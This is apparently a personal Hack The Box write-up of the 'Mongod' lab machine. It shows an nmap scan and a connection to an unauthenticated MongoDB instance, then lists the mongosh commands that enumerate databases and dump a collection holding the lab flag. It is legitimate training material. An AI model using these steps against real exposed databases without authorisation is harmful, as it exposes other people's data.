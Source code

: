 ## Box: [Mongod] — Started: 2025-10-05 23:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned: 25-10-05`

### TL;DR

After installing an old version of mongosh due to an error, Initial was: `./mongosh "10.129.205.118:27017"`.

Flag Cap command, from within a `mongosh` shell: `sensitive_information> db.flag.find()`.

*Cumulative Impact Overview*:
- `mongodb` lab

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*:
    - `nmap -sV IPADDR` - found mongodb on port 27017
3. *Findings & Exploits*:
    - my version of mongosh was too new to connect to the machine, so I needed to install an older version of mongosh:

```bash
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.20]─[htb-mp-954215@htb-eldyftujfu]─[~]
└──╼ [★]$ mongosh "mongodb://10.129.205.118:27017"
Current Mongosh Log ID:	68e335863682f53f98544ca6
Connecting to:		mongodb://10.129.205.118:27017/?directConnection=true&appName=mongosh+2.3.8
MongoServerSelectionError: Server at 10.129.205.118:27017 reports maximum wire version 6, but this version of the Node.js Driver requires at least 7 (MongoDB 4.0)
```

4. *PrivEsc*:
    - `show dbs` - show the databases
    - `use sensitive_information` - enter the `sensitive_information` db
    - `show collections` - show the collections within the `sensitive_information` db
        - At that point I was here:
    - ```
        sensitive_information> show collections
        flag
        ```
5. *Post-Exploitation*:
    - Took some digging through `mongodb`'s docs, particularly their mongosh section to find the command to show content of the docs within the collection `flag`
```bash
sensitive_information> db.flag.find()
[
  {
    _id: ObjectId('630e3dbcb82540ebbd1748c5'),
    flag: '[REDACTED]'
  }
]
sensitive_information> 
```

*Proof — path to flags/screenshot of boxpwn*:

![[Pasted image 20251005235422.png]]



### Commands Learned or Commands Used
```bash
test> show dbs    # show all dbs
test> use databaseName    # enter the database named databaseName
sensitive_information> show collections    # show all collections within active db
sensitive_information> db.collectionName.find() # dump contents of docs within collection named collectionName
```
